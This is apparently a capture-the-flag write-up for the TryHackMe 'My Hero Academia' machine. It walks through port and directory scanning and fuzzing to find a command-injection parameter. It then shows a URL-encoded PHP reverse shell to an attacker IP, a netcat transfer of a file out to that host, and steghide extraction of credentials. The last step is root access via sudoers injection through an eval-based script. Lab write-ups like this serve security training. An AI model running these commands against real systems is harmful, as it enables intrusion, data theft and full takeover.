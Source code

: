 > PEAK MY HERO ACADEMIA MACHINE
# [Challenge](https://tryhackme.com/room/yueiua)

- # ENUM
	- ### nmap (`nmap -A -p- -T4 --min-rate=5000 myhero`)
		- 22 -> ssh
		- 80 -> http (Apache 2.4.41)
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://myhero -x .html,.js,.txt,.php -t 300`)
		- `/assets`

- # EXPLOITATION
	- There's an `index.php` file in `/assets`. Let's try enumerating parameters: `ffuf -u 'http://myhero/assets/index.php?FUZZ=id' -t 100 -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -fs 0`
		- `cmd` parameter found!
			- Responses are in `base64`...
	- We have 2 users: `deku` and `ubuntu`
		- Let's open a revshell ([`php%20-r%20%27%24sock%3Dfsockopen%28%2210.8.13.111%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27`](https://www.revshells.com/))
	- `python3 -c "import pty; pty.spawn('/bin/bash')"`

- # PRIVILEGE ESCALATION
	- `/var/www/Hidden_Content/passphrase.txt` -> `QWxsbWlnaHRGb3JFdmVyISEhCg==` ---- (`base64`) ---> `AllmightForEver!!!`
		- Passphrase for what?
	- There's an unused image: `/var/www/html/assets/images/oneforall.jpg`. Let's analyze it: `nc -lvnp 8888` -> `nc 10.8.13.111 8888 < oneforall.jpg`
		- Extract `creds.txt` with `steghide` and the password found before
			- `deku:One?For?All_!!one1/A`
	- `sudo -l` -> `/opt/NewComponent/feedback.sh`
	```bash
	  if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
	  eval "echo $feedback"
	  ```
- `deku ALL=NOPASSWD: ALL >> /etc/sudoers` -> `sudo su`
	- We're ROOT!